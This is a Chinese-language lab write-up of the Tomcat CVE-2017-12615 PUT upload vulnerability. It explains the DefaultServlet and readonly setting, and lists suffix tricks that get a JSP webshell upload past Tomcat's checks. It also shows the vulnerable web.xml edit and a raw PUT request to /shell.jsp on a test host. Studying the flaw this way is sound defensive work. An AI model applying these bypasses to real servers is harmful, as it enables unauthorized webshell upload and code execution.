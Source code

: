 ![image-20200813095843352](/images/tomcat/image-20200813095843352.png)

这个CVE漏洞涉及到 DefaultServlet，DefaultServlet作用是处理静态文件，同时DefaultServlet可以处理PUT或DELETE请求，默认配置如图2：

![image-20200813100218371](/images/tomcat/image-20200813100218371.png)

可以看出即使设置readonly为false,默认tomcat也不允许PUT上传jsp和jspx文件，因为后端都用org.apache.catalina.servlets.JspServlet来处理jsp或是jspx后缀的请求，而JspServlet负责处理所有JSP和JPSX类型的动态请求，从代码没有发现处理HTTP PUT类型的操作, 所以可知PUT以及DELTE等HTTP操作由DefautServelt实现。因此，就算我们构造请求直接上传JSP webshell显然是不会成功的。该漏洞实际上是利用了windows下文件名解析的漏洞来触发的。根本是通过构造特殊后缀名，绕过Tomcat检测，让Tomcat用DefaultServlet的逻辑处理请求，从而上传jsp webshell文件。

绕过方式：

Windows：
1、利用/shell.jsp::$DATA的方式绕过
2、/shell.jsp%20，空格绕过
3、/shell.jsp/ ， Tomcat在处理文件时会删除最后的/
Linux：
1、/shell.jsp/ ， Tomcat在处理文件时会删除最后的/

##### 漏洞条件

`readonly`设置为`false`时会导致攻击者上传任意恶意文件。

##### 漏洞检测

漏洞环境使用[P牛docker](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2017-12615)镜像验证。

Tomcat version: 8.5.19

![image-20200813140738965](/images/tomcat/image-20200813140738965.png)

将readonly参数设置为false时，即可通过PUT方式创建一个JSP文件，并可以执行任意代码。修改部分如下。

1、readonly默认值为true，手动将其改为false，在`conf/web.xml`中手动添加红色方框类内容。

添加如下：

```xml
				<init-param> 
            <param-name>readonly</param-name> 
            <param-value>false</param-value> 
        </init-param>
```

![image-20200813100605923](/images/tomcat/image-20200813100605923.png)

2、修改请求头并传递post数据

```
PUT /shell.jsp HTTP/1.1
Host: 192.168.3.49:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

shell
```

